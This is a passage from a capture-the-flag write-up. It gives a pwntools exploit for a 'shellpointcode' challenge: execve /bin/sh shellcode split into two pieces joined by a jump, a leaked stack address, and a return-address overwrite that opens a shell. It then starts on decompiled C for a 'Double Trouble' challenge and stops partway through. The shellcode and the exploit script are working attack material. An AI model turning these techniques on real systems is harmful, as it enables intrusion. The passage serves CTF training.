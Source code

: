 which means that there's a gap between out shellcode. Bypass it via `jmp`.

```python
from pwn import *

p = process("./shellpointcode")


shellcode1 = "\x31\xf6\x90\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\xeb\x11"
shellcode2 = "\xf7\xe6\x50\x53\x54\x5f\xb0\x3b\x0f\x05"



p.sendlineafter(":", shellcode2)
p.sendlineafter(":", shellcode1)
p.recvuntil(": \n")
leak = p.recvline().split(": ")[1][:-1]
leak = int(leak, 16) + 8
print hex(leak)

offset = "1234567890A"
gdb.attach(p)
p.sendlineafter("?", offset + p64(leak))

p.interactive()
```

## Double Trouble

Program Overview:
```c
int game()
{
  int v0; // esi
  long double _sum; // fst7
  long double _max; // fst7
  long double _min; // fst7
  int _index; // eax
  int _max_try; // [esp+Ch] [ebp-21Ch]
  int i; // [esp+10h] [ebp-218h]
  char *s; // [esp+14h] [ebp-214h]
  double _array[64]; // [esp+18h] [ebp-210h]
  unsigned int v10; // [esp+21Ch] [ebp-Ch]

  v10 = __readgsdword(0x14u);
  printf("%p\n", _array);
  printf("How long: ");
  __isoc99_scanf((int)"%d", (int)&_max_try);
  getchar();
  if ( _max_try > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  i = 0;
  while ( i < _max_try )
  {
    s = (char *)malloc(0x64u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = i++;
    _array[v0] = atof(s);
  }
  printArray(&_max_try, (int)_array);
```